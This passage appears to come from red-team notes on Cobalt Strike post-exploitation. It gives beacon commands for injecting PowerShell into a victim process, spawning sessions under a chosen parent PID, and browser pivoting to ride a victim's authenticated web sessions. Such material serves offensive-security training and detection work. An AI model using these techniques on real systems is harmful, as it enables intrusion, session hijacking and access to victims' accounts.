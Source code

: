 ### Psinject

This function allows an attacker executing powershell scripts from under any process on the victim system. Note that PID 2872 is the calc.exe process seen in the above screenshot related to `runu`:

{% code title="attacker@cs" %}
```csharp
beacon> psinject 2872 x64 get-childitem c:\
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-44-30.png)

Highlighted in green are new handles that are opened in the target process when powershell script is being injected:

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-52-16.png)

### Spawnu

Spawn a session with powershell payload from a given parent PID:

{% code title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-57-30.png)

![](../../.gitbook/assets/screenshot-from-2019-01-07-20-57-25.png)

### Browser Pivoting

This feature enables an attacker riding on compromised user's browsing sessions.

The way this attack works is best explained with an example:

* Victim log's in to some web application using Internet Explorer.
* Attacker/operator creates a browser pivot by issuing a `browserpivot` command
* The beacon creates a proxy server on the victim system \(in Internet Explorer process to be more precise\) by binding and listening to a port, say 6605
* Team server binds and starts listening to a port, say 33912
* Attacker can now use their teamserver:33912 as a web proxy. All the traffic that goes through this proxy will be forwarded/traverse the proxy opened on the victim system via the Internet Explorer process \(port 6605\). Since Internet Explorer relies on WinINet library for managing web requests and authentication, attacker's web requests will be reauthenticated allowing the attacker to view same applications the victim has active sessions to without being asked to login.

Browser pivotting in cobalt strike:

{% code title="attacker@cs" %}
```csharp
beacon> browserpivot 244 x86
```
{% endcode %}
